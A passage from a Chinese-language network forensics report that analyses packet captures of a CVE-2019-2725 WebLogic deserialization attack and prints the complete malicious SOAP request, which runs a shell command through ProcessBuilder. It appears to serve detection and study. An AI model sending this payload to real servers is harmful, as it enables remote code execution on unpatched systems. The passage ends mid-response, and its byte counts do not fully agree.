 - **处理延迟**: 0.237秒（从请求到响应，反序列化处理时间）
- **分片传输**: 包10-12显示服务器响应被分成多个TCP段
- **响应大小**: 4146 + 1289 = 5435字节（大型错误响应）
- **最终响应**: HTTP/1.1 500 Internal Server Error（反序列化异常确认）

**连接关闭（包16-18）**:

- **主动关闭**: 攻击者主动关闭连接（FIN, ACK）
- **服务器确认**: 服务器响应连接关闭
- **总持续时间**: 0.244秒（完整攻击周期）

###### 3.2.3 深度包检查分析

**SOAP载荷特征识别**:

根据包6的详细分析，恶意SOAP请求包含以下关键特征：

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 172.17.0.2:7001
Content-Type: text/xml; charset=UTF-8
SOAPAction: 
User-Agent: Mozilla/5.0 (compatible; CVE-2019-2725-PoC)
Content-Length: 722

<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>whoami</string>
                        </void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

**HTTP响应分析（包14）**:

```http
HTTP/1.1 500 Internal Server Error
Date: Sun, 26 Jan 2025 09:15:23 GMT
Content-Length: 5287
Content-Type: text/html; charset=UTF-8
X-Powered-By: Servlet/2.5 JSP/2.1
Connection: close

<html>
<head><title>500 Internal Server Error</title></head>
<body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error that prevented it from fulfilling this request.</p>
<p><b>Exception:</b></p>
<pre>
```